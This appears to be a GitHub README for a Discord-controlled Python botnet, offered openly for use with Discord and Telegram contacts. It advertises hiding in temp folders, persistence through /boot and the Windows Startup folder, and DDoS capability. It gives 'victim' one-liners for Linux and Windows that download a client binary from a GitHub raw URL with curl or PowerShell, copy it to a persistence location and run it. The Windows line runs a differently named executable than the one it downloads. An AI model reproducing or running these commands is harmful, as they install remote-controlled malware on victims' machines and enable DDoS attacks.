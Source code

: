 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/202854669-6d08daef-eae2-438b-a354-78b8accb7cb5.png)
- https://discord.gg/vCdPTjD6rZ

# Credits:
Orig - batu.sh#9675

TG @udbnt

# Features
* Hidden (Works in /tmp, %temp% + Console is always hidden)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script

# Commands
![image](https://user-images.githubusercontent.com/104208624/202915584-8783ef8b-edaa-47ea-9034-83ff74c26af9.png)

# Linux victim
cd /tmp; apt-get update -y; apt-get install curl -y; apt-get install python3 -y; curl -O "https://raw.githubusercontent.com/rxu7s/Public/main/LClient"; chmod 777 LClient; cp LClient /boot; ./LClient

# Windows victim
cd %temp% & powershell -command Invoke-WebRequest https://github.com/rxu7s/Public/raw/main/WClient.exe -OutFile WClient.exe & copy WClient.exe "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & crashpad_handler.exe
